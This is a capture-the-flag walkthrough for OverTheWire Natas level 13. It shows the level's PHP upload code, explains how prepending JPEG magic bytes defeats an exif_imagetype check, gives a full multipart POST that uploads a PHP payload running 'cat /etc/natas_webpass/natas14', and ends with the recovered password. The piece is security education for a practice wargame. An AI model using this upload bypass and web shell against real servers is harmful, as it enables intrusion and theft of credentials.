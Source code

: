 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 13"
date:   2015-09-21
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 13 > Level 14

Another file upload.

![natas13-01](/assets/images/otw-natas/natas13-01.png)

```
[...]
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

"For security reasons, we now only accept image files!" Damn!

Only one thing has changed since the last level, the addition of this check. Obviously this is what we have to defeat.

```
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
```

The [documentation](http://php.net/manual/en/function.exif-imagetype.php) on this says it determines the file type by reading the 'first bytes' of the file. A php file will still execute with garbage outside of the `<?php ?>` tags, so we just need to find what values to prepend to our previous solution.

A [comment](http://php.net/manual/en/function.exif-imagetype.php#113253) on that page says we just need `FF D8` to identify the file as a `jpg`, but it didn't work for me. Looking into it further, I found [this site](http://www.filesignatures.net) which says we need four bytes - `FF D8 FF E0`.

Save the PHP string we used in the previous level to a file and add the special sauce in a hex editor (`hexedit` shown).

![natas13-02](/assets/images/otw-natas/natas13-02.png)

Upload the file and modify the POST request as in the previous level to our own value for `filename`.

```
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="filename"

giantburrito.php
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="uploadedfile"; filename="natas13jpg.php"

����<?php echo exec("cat /etc/natas_webpass/natas14"); ?>
-----------------------------889891975953420225799738043--
```

```
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/ve7evh8ayr.php">upload/ve7evh8ayr.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Success. Ignore the four bytes we added and you've got the password.

![natas13-03](/assets/images/otw-natas/natas13-03.png)

Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
